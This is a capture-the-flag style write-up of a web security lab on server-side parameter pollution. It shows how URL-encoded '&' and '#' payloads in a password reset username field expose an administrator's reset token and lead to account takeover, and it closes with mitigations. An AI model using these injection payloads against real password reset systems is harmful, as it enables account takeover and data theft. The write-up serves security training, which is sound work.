




# Server-Side Parameter Pollution (SSPP) in Password Reset Query Strings

## Lab Information

- **Classification:** API Testing
- **Challenge Name:** Exploiting Server-Side Parameter Pollution in a Query String
- **Skill Level:** Practitioner
- **Status:** Resolved

## Objective

Leverage a Server-Side Parameter Pollution (SSPP) flaw in the password reset system to obtain the admin password reset token, reset the administrator credentials, and delete the user account `carlos`.

---

## Vulnerability Analysis

The password recovery endpoint builds internal API queries using user-controlled input. By injecting URL-encoded parameter delimiters and comment/truncation characters, we can alter the backend request query string to query or display restricted database fields, exposing sensitive information such as password reset tokens.

---

## Exploitation Steps

### Step 1: Triggering the Password Reset Request

Navigate to the password recovery page and submit a reset request for:

```text
administrator
```

Capture the outgoing request:

```http
POST /forgot-password
```

### Evidence



---

### Step 2: Testing Account Verification

Modify the username parameter to a non-existent account:

```text
administratorx
```

The system returns:

```json
Invalid username
```

### Evidence


---

### Step 3: Verifying Parameter Injection

Append a URL-encoded ampersand to test for query pollution:

```text
username=administrator%26x=y
```

The backend responds with:

```json
Parameter is not supported
```

This indicates that `%26` was decoded on the server side and parsed as a separate request parameter (`x=y`).

### Evidence



---

### Step 4: Probing for Internal Parameters

Submit another payload containing a mock parameter:

```text
username=administrator%26field=x%23
```

The system responds with:

```json
Invalid field
```

This indicates the existence of an internal parameter named `field` that is now being evaluated by the backend API.

### Evidence



---

### Step 5: Enumerating Internal Fields

Send the query to Burp Intruder and fuzz the `field` parameter value using the following candidates:

```text
username
email
password
reset_token
token
id
name
```

The results indicate that several valid fields return successful HTTP 200 responses.

### Evidence


---

### Step 6: Obtaining the Reset Token

Update the query to target the token field:

```text
username=administrator%26field=reset_token%23
```

The server returns the password reset token for the admin account in the response.

### Evidence


---

### Step 7: Modifying the Password

Use the acquired token by visiting:

```text
/forgot-password?reset_token=<TOKEN>
```

and define a new password for the admin account.

---

### Step 8: Accessing the Admin Interface

Authenticate using the new administrator credentials:

```text
Username: administrator
Password: <new password>
```

Access the administrative dashboard.

---

### Step 9: Deleting Carlos

Open the admin console and delete the user account:

```text
carlos
```

This completes and resolves the challenge.

---

## Final Result

The vulnerability allowed backend parameter manipulation through URL query pollution, leading to the disclosure of the administrator's password reset token and full account compromise.

### Evidence



---

## Impact Assessment

This vulnerability can result in:

- Disclosure of sensitive backend data.
- Password reset token leakage.
- Direct account takeovers.
- Privilege escalation.
- Administrative account compromise.

---

## Mitigation and Protection

- Sanitize user-controlled input prior to processing.
- Reject unexpected or extraneous query parameters.
- Use parameterized backend API calls.
- Validate and whitelist accepted parameters.
- Avoid constructing internal API requests using raw user input.
- Implement strict server-side validation.

---

## External References

- PortSwigger Web Security Academy
- Server-Side Parameter Pollution (SSPP)
- OWASP API Security Top 10